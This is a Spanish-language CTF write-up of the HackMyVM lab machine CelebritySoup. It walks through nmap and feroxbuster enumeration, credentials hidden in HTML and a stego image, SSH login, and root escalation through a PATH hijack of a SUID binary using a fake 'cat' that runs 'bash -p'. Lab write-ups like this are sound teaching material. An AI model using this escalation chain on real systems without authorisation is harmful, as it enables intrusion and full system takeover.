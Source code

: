 ```yaml
---
layout      : post
title       : "CelebritySoup - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Celebritysoup-HackMyVM/Celebritysoup.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


Esta vez tenemos la máquina CelebritySoup nivel Easy creada por ShellDredd, en la que tendremos un poco de todo, una "larga" enumeración web con cositas muy chulas en cuanto al diseño del CTF, un poco de stego y una escalada bien sencilla tirando de un SUID y jugando un poco con la variable PATH.

Canal de ShellDredd Informática --> [https://www.youtube.com/c/ShellDreddInform%C3%A1tica](https://www.youtube.com/c/ShellDreddInform%C3%A1tica)

# Reconocimiento de Puertos

Comienzo escaneando puertos, como de costumbre.

![](/assets/images/HMV/Celebritysoup-HackMyVM/rustcan.webp)

Escaneo más avanzado de versiones y servicios.

```nmap
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:8f:44:53:04:a9:81:ac:f9:3c:4d:6f:c6:bd:61:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCWD3FxSjZsVitvLh+T2H7YXugTHxEEmebRbiiJFDt5BFm+hfELTOCeoQLVNd2GaqYr8sD0GGz5lc7npxfE7Q0xSL6y0HCsEQC/zzmfmPwscqYJV+fk6mwAt8lAh537OB00YZtmt/67kUgW3Xd9udhvT1MiLdk0WNRcjtMotgzs9a0gXk1CUEery/w7pa5CxM9F4uFJ0EclV6Dzdga31ZldU2QqkJWgT1XzDZHYjTEA92GN7kES1stUz/PygGU7C6gXzmTuiBHw9kmdAfzG+KyJUAKt2wZaxqWrNWml7Nwy1iHKCTmrlfkFkwxJ+5Glh3SWVRor0x/8fVRLzuSwvXDX
|   256 fb:12:87:90:45:1c:8b:b7:23:86:aa:a7:2f:be:80:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOCjQeru+5a3+VqyTvVo6JZC4aIResbTMoq3J+G3EObG+ic+EycPH92coD1VMS8PMxpW8Bp3lHdbQOV8NJ8eYLE=
|   256 d4:e3:36:6c:d0:20:c3:5b:2d:c6:c5:6b:28:be:f6:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDOruj2FYzeb0QWZZH4K3dcPk04F0iGMvU8iBK5c2l1R
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Section 9
|_http-favicon: Unknown favicon MD5: DE02BF0388A5D040B61481AE073E693D
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos lo siguiente:

> Puerto 21 , 22 , 80 abiertos.

Probé si tenía acceso anónimo el servidor ftp pero no, asique supongo que debemos encontrar credenciales válidas.

Procedo a enumerar el servidor web.


# Enumeración Web

Abro el navegador y accedo al servidor web.

![](/assets/images/HMV/Celebritysoup-HackMyVM/web1.webp)

De primeras no hay nada, y en el código fuente tampoco veo nada que me pueda servir, de forma que procedo a enumerar rutas en el servidor.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster.webp

Como se puede ver, hay varias rutas, pero la que más me llama la atención es el archivo robots.txt, asique voy a ver que tenemos.

![](/assets/images/HMV/Celebritysoup-HackMyVM/robots.webp)

Parece que tenemos varios archivos con extensión html, asique los reviso uno a uno, y a simple vista no parece nada importante, pero revisando el código fuente de los archivos sector(1-10) veo algo raro.

En cada archivo tenemos este patrón que se repite en los demás.

```secret
<div secret1="pu"></div>
<div secret2="pp"></div>
<div secret3="et"></div>
<div secret4="ma"></div>
<div secret5="st"></div>
<div secret6="er"></div>
```
Si unimos estas pistas, encontramos la palabra puppetmaster que podría ser un usuario o una contraseña, pero aún no lo sabemos a ciencia cierta.

En el archivo sector9.html encuentro una especie de artículo

![](/assets/images/HMV/Celebritysoup-HackMyVM/web2.webp)

Al ver que el archivo sector9.html es diferente a los más, pienso que dentro ha de haber una ruta o alguna pista que podría ayudarme a continuar.

Asique voy a probar a crear un diccionario con el contenido de la página usando la herramienta cewl.

> `cewl --with-numbers http://192.168.0.15/sector9.html > diccionario_web.txt`

Una vez generado el diccionario voy a fuzzear en busca de rutas.

![](/assets/images/HMV/Celebritysoup-HackMyVM/feroxbuster2.webp)

Tenemos la ruta project2501.html, asique vamos a ver que hay.

![](/assets/images/HMV/Celebritysoup-HackMyVM/project2501.png)

Puede que la información este escondida dentro de la imágen, pero no me deja descargarla, asique buscando en el código fuente encuentro una fuga en el código web, modding.css

`<link href="modding.css" rel="stylesheet">`

Y encontramos la ruta de la imágen, que ya la podremos descargar y analizarla.

![](/assets/images/HMV/Celebritysoup-HackMyVM/css.webp)

La descargo y analizo con exiftool.

![](/assets/images/HMV/Celebritysoup-HackMyVM/exiftool.webp)

Pero no hay nada oculto... Aunque estoy seguro que hay algo en la imágen, ya que no hay otro hilo del que tirar.

![](/assets/images/HMV/Celebritysoup-HackMyVM/sector10.gif)

A través de una herramienta de esteganografía online adjunto la imágen y me da una cadena encodeada en binario... podría ser un mensaje...

```binary
0110010001101001011001110110100101110100011000010110110000101101011000100111001001100001011010010110111000101101011010010111001100101101011101000111001001100001011011100111001101100011011001010110111001100100011010010110111001100111
```

Lo desencripto:

![](/assets/images/HMV/Celebritysoup-HackMyVM/binary.webp)

Parece una contraseña, alomejor podemos conectarnos a través de ssh usando el usuario puppetmaster y la contraseña digital-brain-is-transcending

![](/assets/images/HMV/Celebritysoup-HackMyVM/ssh.webp)

Hemos tenido userte, las credenciales eran válidas.

Ahora ya puedo leer la flag user.txt, por lo tanto ya pasamos a la parte de escalar privilegios.

![](/assets/images/HMV/Celebritysoup-HackMyVM/user.webp)

# Escalada de Privilegios

Como de costumbre para escalar privilegios primero debemos enumerar para encontrares posibles vectores de escalada.

Antes de nada tenemos en el directorio donde se aloja la flag user.txt un archivo llamado `systeminfo`.

> `-rwsr-xr-x 1 root         root         16712 ene  6  2021 systeminfo`

El archivo systeminfo tiene privilegios SUID, asique voy a ver que contiene este archivo en su interior.

![](/assets/images/HMV/Celebritysoup-HackMyVM/escalada1.webp)

Si nos fijamos tenemos rutas absolutas, excepto en la línea `cat /etc/*release` donde el cat en vez de definirse como /usr/bin/cat se define como cat solamente.

Podríamos aprovecharnos del cat para escalar privilegios, creando un archivo llamado cat añadiéndole cierto contenido en su interior, después lo colocamos en la variable de entorno para que al ejecutar el systeminfo ejecute nuestro cat modificado, por lo tanto ejecute el contenido de su interior.

Lo mostaré paso por paso y lo entenderéis mejor:
 
> Creamos el archivo cat 

`puppetmaster@CelebritySoup:~$ touch cat`

> Añadimos el contenido dentro del archivo

```bash
puppetmaster@CelebritySoup:~$ echo "bash -p" > cat
puppetmaster@CelebritySoup:~$ cat cat
bash -p
```
> Le asiganos permisos de ejecución

`chmod +x cat`

> Lo añadimos la ruta a la variable de entorno PATH

`export PATH=/home/puppetmaster/:$PATH`

> Ejecutamos el archivo systeminfo

```bash
puppetmaster@CelebritySoup:~$ ./systeminfo 


root
uid=0(root) gid=1000(puppetmaster) grupos=1000(puppetmaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
CelebritySoup
```

![](/assets/images/HMV/Celebritysoup-HackMyVM/root.webp)

Y ya podemos leer la flag root

![](/assets/images/HMV/Celebritysoup-HackMyVM/root1.webp)
